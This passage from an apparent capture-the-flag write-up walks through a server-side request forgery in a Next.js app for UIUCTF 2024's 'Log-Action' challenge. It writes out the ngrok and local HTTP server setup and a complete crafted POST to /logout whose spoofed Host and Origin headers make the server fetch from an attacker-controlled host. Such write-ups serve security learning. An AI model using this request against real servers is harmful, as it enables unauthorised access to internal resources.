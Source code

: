 > Note: It seems like it also needs the `Origin` header to check for CSRF attacks.

Nice! With that said, we can let the server-side to fetch any resources from any origins with the `Host` header!

To test it, we need to:

- Port forwarding via ngrok:

```shell
┌[siunam♥Mercury]-(~/ctf/UIUCTF-2024/Web/Log-Action)-[2024.07.01|14:38:59(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://1593-{REDACTED}.ngrok-free.app -> http://localhost:80            
[...]
```

- Setup a simple HTTP server:

```shell
┌[siunam♥Mercury]-(~/ctf/UIUCTF-2024/Web/Log-Action)-[2024.07.01|14:40:17(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**Then, send the following POST request to `/logout`:**
```http
POST /logout HTTP/1.1
Host: 1593-{REDACTED}.ngrok-free.app
Origin: https://1593-{REDACTED}.ngrok-free.app/
Accept: text/x-component
Next-Action: c3a144622dd5b5046f1ccb6007fea3f3710057de
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22logout%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Content-Type: multipart/form-data; boundary=---------------------------30523002528298602961754182131
Content-Length: 333
Origin: http://log-action.challenge.uiuc.tf
Connection: keep-alive
Cookie: authjs.csrf-token=3a88d122c42873637d81db77edf8571e94e78697010629b27d9d1632876b75ad%7C250eafa2f8899729450d0228f76b528c95b155ca24e929d61e934ce559b299b5

-----------------------------30523002528298602961754182131
Content-Disposition: form-data; name="1_$ACTION_ID_c3a144622dd5b5046f1ccb6007fea3f3710057de"


-----------------------------30523002528298602961754182131
Content-Disposition: form-data; name="0"

["$K1"]
-----------------------------30523002528298602961754182131--
```

> Note: The `Origin` header and the header's value `/` is required.
